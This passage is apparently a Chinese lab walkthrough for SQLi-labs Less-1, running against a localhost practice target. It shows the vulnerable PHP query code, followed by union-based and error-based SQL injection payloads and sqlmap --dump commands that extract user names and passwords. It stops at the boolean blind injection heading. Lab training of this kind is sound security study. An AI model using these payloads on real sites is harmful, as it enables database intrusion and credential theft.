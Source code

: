 ### 3.2 Less 1-20

#### 3.2.1 Less-1

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

if true
  	"查询结果"
else 
	print_r(mysql_error());  
```

**联合注入**

手工

```sql
?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)%23 # 查库
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema="security")%23 # 查表
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name="users")%23 # 查字段
?id=-1' union select 1,2,(select group_concat(username,password SEPARATOR 0x3c62723e) from users)%23 # 0x3c62723e=<br>，即按换行分割
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=U -v 3 -D security -T users --dump --batch
```

**报错注入**

手工

```sql
?id=1'and updatexml(1,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e),1)%23
?id=1'and extractvalue(1,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23
?id=1'and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=E -v 3 -D security -T users --dump --batch
```

**布尔盲注**
